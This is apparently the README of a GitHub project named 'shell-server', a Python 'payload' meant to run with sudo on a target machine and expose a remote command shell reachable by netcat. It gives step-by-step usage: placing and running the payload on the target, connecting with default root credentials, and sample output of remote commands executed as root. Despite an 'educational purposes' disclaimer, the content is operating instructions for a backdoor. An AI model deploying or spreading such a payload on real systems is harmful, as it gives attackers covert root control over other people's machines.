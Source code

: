 <p align="center">
  <a href="https://github.com/thiiagoms/shell-server">
    <img src="assets/payload.png" alt="Logo" width="80" height="80">
  </a>
     <h3 align="center">Simple payload with Python! :rocket:</h3>
</p>

Execute commands, get info about system with this little pythonic example. You **MUST** use this example **ONLY** for educational purposes.

- [Dependencies](#dependencies)
- [Use:](#use)


### Dependencies
* Python 3.5+

### Use:

1 - Clone the repository:
```bash
$ git clone https://github.com/thiiagoms/shell-server,
```

2 - Change host and port on `payload.py` and then execute on target machine:
```python
$ sudo python payload.py
```

3 - You can use netcat for example, to connect on host and port:
```bash
$ netcat <host> <port>

[*] Username: root
[*] Password: 123456

$ <you-are-connect-on-machine>
```

4 - You have two commands on payload: `shell, server-info and exit`

* First: `shell` to execute commands on target machine
```bash
Welcome to socket server panel. 
$ shell
shell >>: ls

assets
LICENSE
payload.py
README.md

shell >>: whoami

root     
```
* Second: `server-info` to get info about machine
```bash
$ server info

Linux codex 5.13.19-2-MANJARO #1 SMP PREEMPT Sun Sep 19 21:31:53 UTC 2021 x86_64 GNU/Linux
```
* Third: `exit` to exit payload and close connection:
```bash
$ exit
```
